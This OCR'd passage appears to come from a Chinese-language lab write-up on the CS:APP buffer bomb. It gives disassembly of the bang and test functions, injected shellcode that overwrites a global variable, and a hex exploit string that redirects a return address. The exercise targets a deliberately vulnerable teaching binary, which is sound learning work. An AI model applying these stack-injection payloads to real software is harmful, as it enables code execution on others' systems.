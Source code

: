\textbf{分析过程：}
\begin{lstlisting}
0000000000401087 <bang>:
401087:	48 83 ec 08          	sub    $0x8,%rsp
40108b:	8b 15 13 51 20 00    	mov    0x205113(%rip),%edx
401091:	3b 15 15 51 20 00    	cmp    0x205115(%rip),%edx
401097:	75 20                	jne    4010b9 <bang+0x32>
401099:	be 58 25 40 00       	mov    $0x402558,%esi
40109e:	bf 01 00 00 00       	mov    $0x1,%edi
4010a3:	b8 00 00 00 00       	mov    $0x0,%eax
4010a8:	e8 23 fd ff ff       	callq  400dd0 <__printf_chk@plt>
4010ad:	bf 02 00 00 00       	mov    $0x2,%edi
4010b2:	e8 34 06 00 00       	callq  4016eb <validate>
4010b7:	eb 14                	jmp    4010cd <bang+0x46>
4010b9:	be 08 27 40 00       	mov    $0x402708,%esi
4010be:	bf 01 00 00 00       	mov    $0x1,%edi
4010c3:	b8 00 00 00 00       	mov    $0x0,%eax
4010c8:	e8 03 fd ff ff       	callq  400dd0 <__printf_chk@plt>
4010cd:	bf 00 00 00 00       	mov    $0x0,%edi
4010d2:	e8 29 fd ff ff       	callq  400e00 <exit@plt>
\end{lstlisting}
和上一题的思路类似，这一次修改的是一个全局变量。
同理，进行代码注入。
\begin{lstlisting}
0:	c7 04 25 a4 61 60 00 	movl   $0x51f6fe1b,0x6061a4
7:	1b fe f6 51
b:	68 87 10 40 00       	pushq  $0x401087
10:	c3                   	retq
\end{lstlisting}

\subsection{Bomb的破解与分析}

\textbf{文本如下：}
\begin{lstlisting}
b8 1b fe f6 51 68 ba 11
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{lstlisting}

\textbf{分析过程：}
\begin{lstlisting}
000000000040119d <test>:
    40119d:	53                   	push   %rbx
    40119e:	48 83 ec 10          	sub    $0x10,%rsp
    4011a2:	b8 00 00 00 00       	mov    $0x0,%eax
    4011a7:	e8 d7 ff ff ff       	callq  401183 <uniqueval>
    4011ac:	89 44 24 0c          	mov    %eax,0xc(%rsp)
    4011b0:	b8 00 00 00 00       	mov    $0x0,%eax
    4011b5:	e8 1b 04 00 00       	callq  4015d5 <getbuf>
    4011ba:	89 c3                	mov    %eax,%ebx
\end{lstlisting}

